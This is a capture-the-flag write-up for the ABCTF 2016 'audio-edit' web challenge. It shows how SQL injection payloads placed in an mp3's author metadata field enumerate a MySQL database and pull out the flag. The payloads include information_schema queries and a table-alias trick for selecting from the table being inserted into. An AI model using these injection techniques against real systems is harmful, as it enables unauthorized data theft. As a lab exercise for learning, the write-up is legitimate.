


# ABCTF 2016 : audio-edit-200

**Category:** Web
**Points:** 200
**Solves:** 21
**Description:**

I made a cool site to edit audio files. [Can you exploit it?](http://107.170.122.6/audioedit/)

## Write-up

The site offers users to upload an mp3 and therewith do some modifications on e.g. pitch or grain size.
In order to save the uploaded file it's inserted into a database.
It can be requested with a identifier delivered as the HTTP-GET parameter 'file'.
The identifier is created as the sha1sum of the mp3 content.
When opening a mp3 that way, the edit-overview shows some modification modulators,
but also the 'Author' as well as the 'Title' of the particular mp3.

Some test quickly revealed the input of 'Author' and 'Title' in the mp3-metadata isn't verified
and offers a SQL-injection vulnerability.

We figured the insertion statement looked smth. like this:

    INSERT INTO audioedit (..., foo, bla, ...) VALUES (..., 'author','title'...);

In order to do an SQL-injection we have to create a special author and title field.
I used [easyTAG](https://wiki.gnome.org/Apps/EasyTAG) but of course you can use the tool of your choice to modify mp3-meta-data;-)
In order to do an injection and maintain a valid INSERTION statement you can create an mp3
with the following meta data:

   
    title  = "" (leer)
    author = a', (SELECT @@version))-- -b

Which creates the following statement

    INSERT INTO audioedit (..., foo, bla, ...) VALUES (..., 'a', (SELECT @@version))-- -b',''...);

The 'a' in the beginning and the 'b' in the end were necessary because the first and last character were
discarded...

This gave us the database version: 5.5.49-0ubuntu0.14.04.1

Next we wanted to know the database name:
    
    author = a', (SELECT database()))-- -b:
    audioedit

And of course the column names:

    author = a',(SELECT column_name FROM information_schema.columns WHERE table_name = 'audioedit' LIMIT x,1))-- -a
    with x in range(0,3):
    id
    file
    author
    title

So finally we wanted see whats in there:

    author = a',(SELECT author FROM audioedit.audioedit LIMIT 0,1))-- -a
    
... but this gave us an insertion error!:(

The problem is you can't select from a database that you're inserting into at the same time... Thanks to Arxenix!:)

So we got around by using AS:

    author = a',(SELECT author FROM audioedit.audioedit as blub LIMIT 0,1))-- -a:
    ABCTF 
    author = a',(SELECT title FROM audioedit.audioedit as blub LIMIT 0,1))-- -a:
    flag 
    author = a',(SELECT file FROM audioedit.audioedit as blub LIMIT 0,1))-- -a:
    supersecretflagf1le.mp3
    
Using this info we visited the corresponding site: http://107.170.122.6/audioedit/edit.php?file=supersecretflagf1le.mp3
    
Setting the visualization to 'Sonogram' finally showed us the flag:

    ABCTF{m3t4_inj3cti00n}

## Other write-ups and resources

* http://countersite.org/articles/web-vulnerability/105-audioedit-writeup.html

* http://blog.ankursundara.com/abctf/
